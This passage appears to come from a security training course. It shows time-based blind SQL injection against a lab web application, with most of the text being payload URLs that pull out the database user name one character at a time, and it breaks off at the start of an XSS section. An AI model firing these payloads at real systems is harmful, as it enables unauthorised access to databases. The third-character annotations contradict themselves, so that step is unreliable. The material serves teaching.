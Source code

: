 Let's go for a quick check to see if it's DBO
http://54.213.100.93/bookdetail.aspx?id=2; IF ((USER)='dbo') WAITFOR DELAY '00:00:10'--

Yup, it waited 10 seconds so we know the username is 'dbo' - let's give you the syntax to verify it just for fun.

D  - 1st Character
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:10'-- 	
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=99) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=100) WAITFOR DELAY '00:00:10'-- 	(Ok, first letter is a 100 which is the letter 'd' - it waited 10 seconds)
 
B - 2nd Character
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),2,1)))>97) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),2,1)))=98) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
 
O - 3rd Character
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>97) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>115) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>105) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))>110) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))=109) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),3,1)))=110) WAITFOR DELAY '00:00:10'--  	Ok, good it waited for 10 seconds










###################################################################
# What is XSS                                                     #
# https://s3.amazonaws.com/StrategicSec-Files/2-Intro_To_XSS.pptx #
###################################################################

OK - what is Cross Site Scripting (XSS)

1. Use Firefox to browse to the following location:

